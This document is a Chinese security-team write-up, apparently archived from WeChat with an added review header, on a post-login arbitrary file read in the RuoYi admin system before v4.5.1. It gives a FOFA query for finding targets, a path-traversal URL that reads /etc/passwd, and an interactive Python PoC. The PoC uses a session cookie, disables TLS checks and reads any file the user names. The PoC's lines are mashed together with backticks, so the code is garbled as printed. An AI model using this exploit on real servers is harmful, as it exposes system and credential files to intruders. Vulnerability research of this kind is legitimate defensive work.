






## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;4.5.1、需后台Cookie明确；修复过滤只有截图

代码与实验材料：完整URL与Python逻辑但所有行被反引号粘连不能运行；root+200判据过宽

来源证据范围：PeiQi/WgpSec原研究署名，缺具体修复commit

- **结论使用边界（1）**：脚本格式不可执行；依据：import/def/if所有语句在单行且逐段夹反引号。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：验证与元数据不足；依据：fofa只查询语句，root子串可误报；禁TLS验证且把任意文件读取限制在进程权限未说明。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 若依(RuoYi)管理系统 后台任意文件读取

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zrVTiHCCymlnrERrSJOUog)

**点击蓝字**


**关注我们**

  

  

**_声明  
_**

本文作者：PeiQi

本文字数：1243

阅读时长：10min

附件/链接：点击查看原文下载

声明：文章仅供学习参考，请勿用作违法用途，否则后果自负

本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载

  

  

  

**_前言_**

  

  

一、

**_漏洞描述_**

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件  

二、

**_漏洞影响_**

RuoYi < v4.5.1

**三、**

**_漏洞复现_**

FOFA查询语句

```
app="若依-管理系统" && body="admin"
```


  

登录后台后访问 Url  

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd



  

访问后会下载文件 **/etc/passwd**



  

可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息  



  

  





  

在更新的版本中添加了危险字符的过滤



  

**四、**

**_漏洞POC_**

POC使用需要后台的Cookie,读取的文件路径应为根路径

```
`import requests``import sys``import random``import re``from requests.packages.urllib3.exceptions import InsecureRequestWarning``def title():` `print('+------------------------------------------')` `print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')` `print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')` `print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')` `print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')` `print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')` `print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')` `print('+------------------------------------------')``def POC_1(target_url, Cookie):` `vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `"Cookie":Cookie` `}` `try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)` `print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))` `if "root" in response.text and response.status_code == 200:` `print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))` `print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))` `while True:` `Filename = input("\033[35mFile >>> \033[0m")` `if Filename == "exit":` `sys.exit(0)` `else:` `POC_2(target_url, Cookie, Filename)` `else:` `print("\033[31m[x] 请求失败 \033[0m")` `sys.exit(0)` `except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``def POC_2(target_url, Cookie, Filename):` `vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `"Cookie":Cookie` `}` `try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)` `print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))` `except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``if __name__ == '__main__':` `title()` `target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))` `Cookie = str(input("\033[35mCookie >>> \033[0m"))` `POC_1(target_url, Cookie)`
```


  

**团队【PeiQi】师傅的微信二维码放在这了**

  


  

  

  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
